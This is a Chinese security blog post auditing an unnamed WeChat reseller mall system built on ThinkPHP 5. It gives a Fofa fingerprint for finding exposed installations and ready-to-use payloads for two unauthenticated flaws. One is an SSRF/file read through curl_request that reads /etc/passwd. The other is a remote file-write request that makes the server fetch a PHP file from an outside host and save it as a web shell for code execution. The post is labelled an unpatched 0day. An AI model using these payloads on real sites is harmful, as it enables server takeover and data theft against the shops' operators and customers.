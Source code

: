 #  某微商代理商补货商城系统RCE漏洞审计   
原创 Mstir  星悦安全   2024-10-02 16:30  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/lSQtsngIibibSOeF8DNKNAC3a6kgvhmWqvoQdibCCk028HCpd5q1pEeFjIhicyia0IcY7f2G9fpqaUm6ATDQuZZ05yw/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
点击上方  
蓝字关注我们 并设为  
星标  
## 0x00 前言  
  
******这个源码是一款微商分销代理商城源码，可以自己设置代理等级和升级条件(如购买指定商品、消费额度)，“微商城+小程序+三级分销+拼团秒杀+多商户开店+O2O门店”通过社交关系分销裂变，把粉丝变成客户，让分销商发展下线，打造新型社交分销模式，实现人人分销、人人卖货！搭建了下，发现后台有页面打不开，但****导入****其他数据库文件后就可以打开。**  
  
**Fofa指纹:"/template/mobile/new/static/assets/js/comm.js"**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5dqz2mHlOaWspGribUQcrna4yw1S1oK67IPVJE98hooYPvYn5qVa56B7gYkgFsLjXHibfzYxOJga2Ug/640?wx_fmt=other&from=appmsg "")  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5dqz2mHlOaWspGribUQcrna4eNHCRGcsticn0UZTs7icMqN14Pb14iaW91DYwVU0HKz2GYDuKlzGCKBpQ/640?wx_fmt=other&from=appmsg "")  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5dqz2mHlOaWspGribUQcrna4ibx2zrsEFRfDeSSo9OluckOQ3MiaKCFobvJiasFXnwL2brJstLuZXXyPQ/640?wx_fmt=jpeg "")  
**框架:ThinkPHP 5**  
## 0x01 前台任意文件读取+SSRF漏洞  
  
**位于 /mobile/controller/Address.php 控制器的 curl_request 方法存在curl_exec函数，且传参均可控，导致漏洞产生，可使用file:/// gopher:// dist://等协议读取或访问任意文件.**  
```
/**
* 参数1：访问的URL，参数2：post数据(不填则为GET)，参数3：提交的$cookies,参数4：是否返回$cookies
* @param  [type]  $url          访问的URL
* @param  string  $post         post数据(不填则为GET)
* @param  string  $cookie        提交的$cookies
* @param  integer $returnCookie 是否返回$cookies
* @return [type]                 data
*/
public function curl_request($url,$post='',$cookie='', $returnCookie=0){
  $curl = curl_init();
  curl_setopt($curl, CURLOPT_URL, $url);
  curl_setopt($curl, CURLOPT_USERAGENT, 'Mozilla/5.0 (compatible; MSIE 10.0; Windows NT 6.1; Trident/6.0)');
  curl_setopt($curl, CURLOPT_FOLLOWLOCATION, 1);
  curl_setopt($curl, CURLOPT_SSL_VERIFYPEER, false); // 跳过ssl检查项
  curl_setopt($curl, CURLOPT_AUTOREFERER, 1);
  curl_setopt($curl, CURLOPT_REFERER, "http://XXX");
  if($post) {
    curl_setopt($curl, CURLOPT_POST, 1);
    curl_setopt($curl, CURLOPT_POSTFIELDS, http_build_query($post));
  }
  if($cookie) {
    curl_setopt($curl, CURLOPT_COOKIE, $cookie);
  }
  curl_setopt($curl, CURLOPT_HEADER, $returnCookie);
  curl_setopt($curl, CURLOPT_TIMEOUT, 10);
  curl_setopt($curl, CURLOPT_RETURNTRANSFER, 1);
  $data = curl_exec($curl);
  if (curl_errno($curl)) {
    return curl_error($curl);
  }
  curl_close($curl);
  if($returnCookie){
    list($header, $body) = explode("\r\n\r\n", $data, 2);
    preg_match_all("/Set\-Cookie:([^;]*);/", $header, $matches);
    $info['cookie']  = substr($matches[1][0], 1);
    $info['content'] = $body;
    return $info;
  }else{
    return $data;
  }
}
```  
  
**Payload:**  
```
/Mobile/address/curl_request?url=file:///etc/passwd
```  
  
****## 0x02 前台远程文件写入漏洞(RCE)  
  
**位于 /home/controller/Index.php 控制器的 Test方法先通过curl_exec函数将远程文件下载过来，然后通过fopen 直接写入到指定的文件当中，文件名可随意控制，导致漏洞产生.**  
```
// 下载图片
public function dlfile($file_url, $save_to)
{
    $ch = curl_init();
    curl_setopt($ch, CURLOPT_POST, 0);
    curl_setopt($ch,CURLOPT_URL,$file_url);
    curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
    $file_content = curl_exec($ch);
    curl_close($ch);
    $downloaded_file = fopen($save_to, 'w');
    fwrite($downloaded_file, $file_content);
    fclose($downloaded_file);
  }
```  
  
**先在云服务器或VPS上准备一个111.txt 内容为 <?php phpinfo();?> 然后使其能被访问到，之后将下方Paylaod地址替换即可**  
  
**Payload:**  
```
GET /home/test/dlfile?file_url=http://127.0.0.1/111.txt&save_to=1.php HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: zh-CN,zh;q=0.9,ru;q=0.8,en;q=0.7
Cache-Control: no-cache
Connection: keep-alive
Host: 127.0.0.1
Pragma: no-cache
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36
sec-ch-ua: "Google Chrome";v="129", "Not=A?Brand";v="8", "Chromium";v="129"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
```  
  
**文件会写入到1.php中**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5dqz2mHlOaWspGribUQcrna4kUA4fIibpASyzwbIrA09Z2NN28rUK5owBofe0WPrUo40iaQQRtchSPYw/640?wx_fmt=other&from=appmsg "")  
****  
**标签:代码审计，0day，渗透测试，系统，通用，0day，闲鱼，转转，RCE**  
  
**微商系统源码关注公众号发送 241002 获取**  
  
  
**PS:无偿帮忙代码审计，可通过公众号后台发送源码网盘链接，或加运营微信发源码即可.**  
  
**PS:无偿帮忙代码审计，可通过公众号后台发送源码网盘链接，或加运营微信发源码即可.**  
  
****![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5ezSI5Y1rLcfcUaLaiamsJrxiaI79zOdmg2WEaVHKu0DWm5Zv2MHmU6ic0nfateWXj2ShGGvJCqRV6aQ/640?wx_fmt=jpeg&from=appmsg "")  
  
**免责声明:****文章中涉及的程序(方法)可能带有攻击性，仅供安全研究与教学之用，读者将其信息做其他用途，由读者承担全部法律及连带责任，文章作者和本公众号不承担任何法律及连带责任，望周知！！!**  
  
